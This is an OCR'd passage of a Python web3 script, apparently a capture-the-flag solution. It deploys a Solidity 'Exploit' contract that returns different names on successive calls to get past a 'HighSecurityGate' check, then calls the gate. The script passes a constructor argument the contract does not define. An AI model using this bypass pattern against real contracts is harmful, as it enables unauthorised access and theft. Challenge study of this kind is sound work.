 ```python
    return compile

def exploit_compile():
    exploit = """
pragma solidity ^0.8.18;

interface Entrant {
    function name() external returns (string memory);
}

import {HighSecurityGate} from "./FortifiedPerimeter.sol";

contract Exploit is Entrant {
  bool public firstCheck = true;

  function name() external returns (string memory){
    if (firstCheck){
      firstCheck = false;
      return "Orion";
    }
    return "Pandora";
  }

  function callSecGate(HighSecurityGate _gate) external {
    _gate.enter();
  }
}
    """
    exploit = compile_source(exploit, output_values=['abi', 'bin'])['<stdin>:Exploit']
    return exploit

def deploy_contract():
    contract = exploit_compile()
    exploit_contract = w3.eth.contract(abi=contract['abi'], bytecode=contract['bin'])
    construct_txn = exploit_contract.constructor(5).build_transaction(
        {
            'from': my_address,
            'nonce': w3.eth.get_transaction_count(my_address),
        }
    )
    tx_create = w3.eth.account.sign_transaction(construct_txn, privkey)
    tx_hash = w3.eth.send_raw_transaction(tx_create.rawTransaction)
    tx_receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
    print(f'Contract deployed at address: { tx_receipt.contractAddress }')
    return tx_receipt.contractAddress

target_abi = compile("FortifiedPerimeter.sol").popitem()[1]['abi']

w3.eth.default_account = w3.eth.account.from_key(privkey).address

target_contract = w3.eth.contract(target_contract_addr, abi=target_abi)
exploit_contract_addr = deploy_contract()
exploit_abi = compile("Exploit.sol")['<stdin>:Exploit']['abi']
exploit_contract = w3.eth.contract(exploit_contract_addr, abi=exploit_abi)
exploit_contract.functions.callSecGate(target_contract_addr).transact()
firstCheck = exploit_contract.functions.firstCheck().call()
print(firstCheck)
```
